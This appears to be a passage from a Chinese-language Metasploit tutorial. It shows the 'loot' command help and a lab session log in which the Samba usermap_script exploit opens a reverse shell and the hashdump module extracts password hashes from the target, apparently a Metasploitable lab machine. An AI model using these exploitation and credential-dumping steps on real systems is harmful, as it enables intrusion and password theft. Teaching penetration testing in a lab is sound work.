 ```shell

msf > loot -h
Usage: loot
 Info: loot [-h] [addr1 addr2 ...] [-t <type1,type2>]
  Add: loot -f [fname] -i [info] -a [addr1 addr2 ...] [-t [type]
  Del: loot -d [addr1 addr2 ...]

  -a,--add          Add loot to the list of addresses, instead of listing
  -d,--delete       Delete *all* loot matching host and type
  -f,--file         File with contents of the loot to add
  -i,--info         Info of the loot to add
  -t <type1,type2>  Search for a list of types
  -h,--help         Show this help information
  -S,--search       Search string to filter by
```

下面这个例子显示了如何查看：

```shell

msf  exploit(usermap_script) > exploit

[*] Started reverse double handler
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 4uGPYOrars5OojdL;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "4uGPYOrars5OojdL\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (172.16.194.163:4444 -> 172.16.194.172:55138) at 2012-06-27 19:38:54 -0400

^Z
Background session 1? [y/N]  y

msf  exploit(usermap_script) > use post/linux/gather/hashdump
msf  post(hashdump) > show options

Module options (post/linux/gather/hashdump):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.

msf  post(hashdump) > sessions -l

Active sessions
===============

  Id  Type        Information  Connection
  --  ----        -----------  ----------
  1   shell unix               172.16.194.163:4444 -> 172.16.194.172:55138 (172.16.194.172)

msf  post(hashdump) > run

[+] root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:0:0:root:/root:/bin/bash
[+] sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:3:3:sys:/dev:/bin/sh
[+] klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:103:104::/home/klog:/bin/false
[+] msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
```